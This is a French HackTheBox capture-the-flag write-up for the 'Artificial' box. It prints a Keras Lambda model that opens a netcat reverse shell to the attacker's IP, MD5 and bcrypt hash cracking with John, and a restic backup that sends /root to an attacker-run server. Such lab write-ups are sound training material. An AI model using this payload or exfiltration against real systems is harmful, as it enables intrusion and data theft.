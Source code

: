 ```yaml
---
title: "Artificial"
description: "WriteUp pour la box Artificial de HackTheBox. Exploitation d'une vulnérabilité TensorFlow pour obtenir un accès initial, puis élévation de privilèges via des backups et la récupération de hash."
icon: "robot"
---
```



# Artificial (HTB)

<Info>
Cette box Linux "easy" de HackTheBox exploite une vulnérabilité TensorFlow pour obtenir un accès initial, puis une élévation de privilèges via des backups et la récupération de hash. Ce writeup suit une démarche pédagogique et structurée.
</Info>

## Introduction

Artificial est une machine Linux orientée IA. Vous allez exploiter une faille RCE dans TensorFlow via un upload de modèle, puis escalader vos privilèges grâce à l'analyse de backups et la récupération de hash root.

**Objectifs :**
- Obtenir un shell utilisateur (gael)
- Élever les privilèges pour obtenir root

**Prérequis :**
- Savoir utiliser Docker, John, restic, et les outils classiques de pentest

## Enumération

<Steps>
<Step title="Scan Nmap">
Lancez un scan Nmap complet pour identifier les services ouverts :

```bash
nmap -sV -A artificial.htb
```

<Frame>
<img src="/images/htb-artificial-nmap.png" alt="Résultat du scan Nmap Artificial" />
</Frame>

Ports principaux :
- 22/tcp : SSH (OpenSSH 8.2p1)
- 80/tcp : HTTP (nginx 1.18.0)
</Step>

<Step title="Enumération Web">
Accédez au site web sur le port 80. Vous pouvez créer un compte et accéder à une interface d'upload de modèles IA.

Explorez les fonctionnalités et récupérez les fichiers `requirements.txt` et `Dockerfile` proposés.
</Step>
</Steps>

## Exploitation (TensorFlow RCE)

<Steps>
<Step title="Préparation de l'environnement Docker">
Utilisez le Dockerfile fourni pour reproduire l'environnement localement (important pour que l'exploit fonctionne) :

```dockerfile
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*
RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
ENTRYPOINT ["/bin/bash"]
```
</Step>

<Step title="Création du modèle malicieux">
Créez un modèle TensorFlow avec une fonction Lambda qui exécute un reverse shell :

```python
import tensorflow as tf
def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc VOTRE_IP 6666 >/tmp/f")
    return x
model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
Remplacez `VOTRE_IP` par l'adresse de votre machine d'attaque.
</Step>

<Step title="Upload et exécution du modèle">
Uploadez le modèle via l'interface web, puis cliquez sur "View Predictions" pour déclencher le reverse shell.

<Check>
Vous obtenez un shell en tant qu'utilisateur `app`.
</Check>
</Step>
</Steps>

## Post-Exploitation (User → gael)

<Steps>
<Step title="Extraction des hashes utilisateurs">
Dans le dossier de l'application, trouvez la base de données `users.db`.

```bash
sqlite3 users.db
sqlite> select * from user;
```
Récupérez le hash MD5 de l'utilisateur `gael`.
</Step>

<Step title="Crack du hash avec John">
Placez le hash dans un fichier et lancez John :

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5
```
Le mot de passe cracké permet de passer sur l'utilisateur `gael`.
</Step>
</Steps>

## Privesc Root

<Steps>
<Step title="Analyse des backups">
Dans `/var/backups`, trouvez un fichier volumineux `backrest_backup.tar.gz`. Extrayez-le localement.

Recherchez un fichier `config.json` contenant un hash bcrypt base64 :

```bash
cat hash.txt | base64 -d
```
Vous obtenez un hash bcrypt.
</Step>

<Step title="Crack du hash root">
Utilisez John pour casser le hash :

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
Vous obtenez le mot de passe root du service backup.
</Step>

<Step title="Port forwarding et exploitation restic">
Identifiez un service local sur le port 9898. Faites un port forwarding SSH :

```bash
ssh gael@artificial.htb -L 9898:127.0.0.1:9898
```
Lancez un serveur restic sur votre machine, puis initiez une sauvegarde distante depuis la box :

```bash
rest-server --path /tmp/restic-data --listen :12345 --no-auth
# Sur la box :
restic -r rest:http://VOTRE_IP:12345/myrepo init
restic -r rest:http://VOTRE_IP:12345/myrepo backup /root
```
Restaurez le snapshot sur votre machine pour obtenir `root.txt`.
</Step>
</Steps>

## Récapitulatif et Conseils

<AccordionGroup>
<Accordion title="Résumé de la box Artificial">
<Check>
User : RCE TensorFlow via upload de modèle malicieux, extraction et crack du hash MD5.
Root : Analyse de backup, extraction d'un hash bcrypt, port forwarding, exploitation restic pour récupérer /root.
</Check>
</Accordion>
<Accordion title="Conseils et bonnes pratiques">
- Toujours reproduire l'environnement cible pour les exploits complexes (Dockerfile fourni)
- Pensez à vérifier les backups et fichiers volumineux pour des secrets
- Utilisez les outils GTFOBins pour l'escalade de privilèges
- Automatisez la récupération et le crack des hashes
</Accordion>
</AccordionGroup>

<Note>
Pour illustrer chaque étape, utilisez la balise `<Frame>` autour de vos captures d'écran.
</Note>

